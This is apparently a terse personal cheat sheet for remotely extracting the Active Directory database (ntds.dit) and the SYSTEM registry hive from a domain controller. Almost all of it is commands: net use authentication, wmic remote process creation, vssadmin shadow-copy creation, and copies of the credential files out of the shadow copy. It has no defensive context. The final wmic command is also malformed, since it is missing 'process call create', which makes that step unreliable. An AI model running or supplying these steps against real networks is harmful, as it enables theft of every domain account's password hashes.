






recover ntds.dit from another Windows machine
1. Autheticate with the Domain
Controller
PS> net use \\<hostname-DC> /user:<DOMAIN>\<username-admin> <password>
PS> dir \\TESTDC\C$\<path>
 2. List the current volume shadow copies, to see if
we need to create one or there is already at least one
PS> wmic /node:<hostname-DC> /user:<DOMAIN>\<username-admin> /password:<password> process call create "cmd /c vssadmin list shadows 2>&1 > C:\Users\Administrator\Desktop\listVolumeShadowCopies.txt"
PS> type \\<hostname-DC>\C$\Users\Administrator\Desktop\listVolumeShadowCopies.txt
 3. How create a new Shadow copy
PS> wmic /node:<hostname-DC> /user:<DOMAIN>\<username-admin> /password:<password> process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > C:\Users\Administrator\Desktop\outputVssadmin.txt"
PS> type \\<hostname-DC>\C$\Users\Administrator\Desktop\outputVssadmin.txt
4. Copy SYSTEM and ntds.dit
file
◇ SYSTEM file
PS> wmic /node:<hostname-DC> /user:<DOMAIN>\<username-admin> /password:<password> process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\System32\config\SYSTEM C:\Users\Administrator\Desktop\SYSTEM"
◇ ntds.dit file
PS> wmic /node:<hostname-DC> /user:<DOMAIN>\<username-admin> /password:<password> "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\NTDS\ntds.dit C:\Users\Administrator\Desktop\ntds.dit"
 Bibliography:
•
https://malicious.link/post/2013/2013-06-10-volume-shadow-copy-ntdsdit-domain-hashes-remotely-part-1/